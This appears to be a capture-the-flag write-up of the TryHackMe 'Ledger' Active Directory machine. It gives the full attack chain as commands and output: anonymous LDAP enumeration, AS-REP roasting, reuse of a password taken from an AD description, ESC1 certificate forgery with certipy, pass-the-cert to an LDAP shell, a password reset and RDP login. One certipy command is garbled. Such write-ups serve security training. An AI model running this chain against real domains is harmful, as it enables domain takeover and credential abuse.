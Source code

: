 # Ledger

## Machine Info

Domain name: `THM.local`

FQDN: `labyrinth.thm.local`&#x20;

Dinaub SID: `S-1-5-21-1966530601-3185510712-10604624`





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.242.176 -oN port_scan.txt

Nmap scan report for 10.10.242.176
Host is up (0.043s latency).
Not shown: 65505 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-29 07:27:05Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
|_ssl-date: 2025-07-29T07:28:13+00:00; -2s from scanner time.
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA
| Not valid before: 2023-05-12T07:26:00
|_Not valid after:  2028-05-12T07:35:59
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-29T07:28:13+00:00; -2s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Not valid before: 2025-07-28T07:22:51
|_Not valid after:  2026-01-27T07:22:51
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
7680/tcp  open  pando-pub?
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC

```



## LDAP Enum

With this nmap command we can notice that we anonymous ldap is enabled, and we can use this flaw to enum the Domain.

```bash
nmap -p 389 --script ldap-search 10.10.242.176
```



### AS-REP Roastable user

Now, with impacket we can enumerate the user with "**Do not require Kerberos preauthentication**" parameter to enable.

```bash
impacket-GetNPUsers THM.local/ -dc-ip 10.10.242.176

Name            MemberOf  PasswordLastSet             LastLogon  UAC      
--------------  --------  --------------------------  ---------  --------
SHELLEY_BEARD             2023-05-30 11:46:05.083950  <never>    0x410200 
ISIAH_WALKER              2023-05-30 11:46:09.380690  <never>    0x410200 
QUEEN_GARNER              2023-05-30 11:46:14.208632  <never>    0x410200 
PHYLLIS_MCCOY             2023-05-30 11:46:20.583409  <never>    0x410200 
MAXINE_FREEMAN            2023-05-30 11:46:51.475615  <never>    0x410200 
```

Request the tgt ticket for all user above.

```bash
impacket-GetNPUsers THM.local/SHELLEY_BEARD -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/ISIAH_WALKER -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/QUEEN_GARNER -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/PHYLLIS_MCCOY -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/MAXINE_FREEMAN -dc-ip 10.10.242.176 -no-pass
```

Copy all results in a file and try to crack at least one.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt tgts_ticket.txt
```

Nothing results :(



### AD Object description

Check if there are some passwords in the user's AD description

{% code overflow="wrap" %}
```bash
ldapsearch -x -H ldap://thm.local -b "dc=thm,dc=local" "(objectClass=user)" cn description

[..snip..]
# SUSANNA_MCKNIGHT, Test, ITS, Tier 1, thm.local
dn: CN=SUSANNA_MCKNIGHT,OU=Test,OU=ITS,OU=Tier 1,DC=thm,DC=local
cn: SUSANNA_MCKNIGHT
description: Please change it: CHANGEME2023!
[..snip..]
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>

We found a possible password for the SUSANNA\_MCKNIGHT user. Using cme check if the password is still valid.

```bash
crackmapexec smb 10.10.242.176 -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!'
```

<figure><img src="../../../.gitbook/assets/image (332).png" alt=""><figcaption></figcaption></figure>

It's still vaild.



## Bloodhound enumeration

With the credentials found, enumerate the Domain with bloodhound

{% code overflow="wrap" %}
```bash
bloodhound-python -c all -ns 10.10.242.176 -dc labyrinth.thm.local -d thm.local --zip -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!'
```
{% endcode %}

The bloodhound research didn't find out interesting things to escalate our priviliges



## AD CS finding

Try to find out some Certs misconfiguration .

{% code overflow="wrap" %}
```bash
certipy find -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!' -dc-ip 10.10.242.176 -vulnerable -enabled

cat *_Certipy.txt | grep ESC
```
{% endcode %}

From this output we can see that the CA:

```
Certificate Authorities             : thm-LABYRINTH-CA
```

It's vulnerable to ESC1.

```
ESC1        : Enrollee supplies subject and template allows client authentication.
```

### ESC1 flaw

Using this flaw we can request a certificate for any user in the Domain.&#x20;

{% code overflow="wrap" %}
```bash
certipy req -ca 'thm-LABYRINTH-CA' -dc-ip '10.10.242.176' -u 'SUSANNA_MCKNIGHT' -p certipy req -u "SUSANNA_MCKNIGHT@thm.local" -p 'CHANGEME2023!' -dc-ip '10.10.102.159' -target "labyrinth.thm.local" -ca 'thm-LABYRINTH-CA' -template 'ServerAuth' -upn 'administrator@thm.local'
```
{% endcode %}

Now the certificate is broken and when i try to request the TGT, it generates a PADATA error because the certificate is expired.

The solution is extract the .key and .crt from the pfx and login with Pass-the-cert python tool.

{% code overflow="wrap" %}
```bash
certipy cert -pfx administrator.pfx -nokey -out "administrator.crt"
certipy cert -pfx administrator.pfx -nocert -out "administrator.key"

python3 passthecert.py -action ldap-shell -crt ../../administrator.crt  -key ../../administrator.key -domain thm.local -dc-ip 10.10.102.159
```
{% endcode %}

Now that we have a LDAP-SHELL we can use the function `change_password` to change the administrator  user password and access to the system as administrator.

```bash
change_password BRADLEY_ORTIZ Password123!
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## RDP as administrator user

```bash
xfreerdp3 /v:10.10.102.159 /u:BRADLEY_ORTIZ /p:Password123!
```

Run as Powershell as administrator and print the user and root flag.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
